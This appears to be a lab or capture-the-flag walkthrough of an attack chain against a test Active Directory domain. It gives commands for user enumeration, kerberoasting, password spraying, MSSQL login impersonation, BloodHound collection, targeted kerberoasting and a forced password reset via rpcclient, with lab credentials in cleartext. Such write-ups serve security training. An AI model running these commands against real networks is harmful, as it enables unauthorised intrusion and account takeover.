# Kerbrute

Using kerbrute for bruteforcing usernames:
```bash
kerbrute userenum --dc 192.168.212.40 -d hokkaido-aerospace.com /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --downgrade
```

We get usernames:
Now bruteforcing passwords with the usernames:
\

Now we can try kerberoasting with this account:
```bash
GetUserSPNs.py hokkaido-aerospace.com/info:info -request
```

We get two hashes but they are uncrackable:

Now checking SYSVOL share for scripts:


Now we get a password so spraying it:

Now using discovery user we can login to Mssql:
```bash
mssqlclient.py -windows-auth -dc-ip 192.168.212.40 hokkaido-aerospace.com/discovery:'Start123!'@192.168.212.40
```
Now checking for impersonation:
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```


Now to impersonate:
```
EXECUTE AS LOGIN = 'hrappdb-reader' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
```
Now checking:
```
SELECT SYSTEM_USER
```

Now checking databases:
```
SELECT name FROM master.dbo.sysdatabases
```

Checking all tables:
```
SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;
```


```
select * from sysauth;
```



Now with the creds we can run bloodhound:
```
nxc ldap 192.168.212.40 -u hrapp-service -p 'Untimed$Runny' --bloodhound --collection All -ns 192.168.212.40
```

Checking outbound transitive object control we have generic write over hazel.
Doing a targeted kerberoast:
```
targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny'
```

Only hazel's hash gets cracked.


We belong to Tier2-Admins and we have GenericWrite access over Administrators:

But doesn't work for some reason

```
rpcclient //192.168.94.135 -U hokkaido-aerospace.com/hazel.green%haze1988c
```
```
rpcclient $> setuserinfo2 MOLLY.SMITH 23 'Start123!'
```

